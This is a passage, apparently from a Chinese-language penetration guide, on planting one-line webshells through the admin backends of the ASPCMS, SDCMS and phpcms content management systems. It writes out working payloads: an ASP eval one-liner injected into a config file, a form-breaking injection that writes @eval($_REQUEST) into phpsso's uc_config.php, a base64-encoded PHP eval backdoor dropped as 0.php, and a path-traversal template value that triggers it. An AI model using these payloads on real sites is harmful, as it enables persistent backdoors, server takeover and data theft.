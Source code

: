 3.配置插马  
幻灯片设置

```
`#插马路径``./config/aspcms_config.asp``#语句``%><%Eval(Request(chr(112)))%><%`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

**7.SD cms**  
1.上传设置，添加脚本类型（大小写替换）  
2.界面，模板管理，点击sdcms\_index.asp，插入一句话到首页  
  
**8.phpcms**  
1.界面，模板风格，详情列表，修改脚本格式文件  
  
2.phpsso(没有这个界面的话调用js），系统设置，ucenter设置，插马  

```
`#插马位置``./phpsso_server/caches/configs/uc_config.php``#先闭合表单``name="data[uc_api','11');/*]``# 再插入代码``*/@eval($_REQUEST[TEST]);//`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接：![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

3.内容，专题，添加专题  

```
<?php file_put_contents('0.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2NtZF0pOz8+'));?>  
#在根目录下生成0.php，密码cmd  

```

添加专题1

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

添加专题2

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扩展设置，专题模板。value值设置为：

```
../../../../html/special/test000/index  

```

提交，提交完成后会在根目录生成0.php后门文件

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
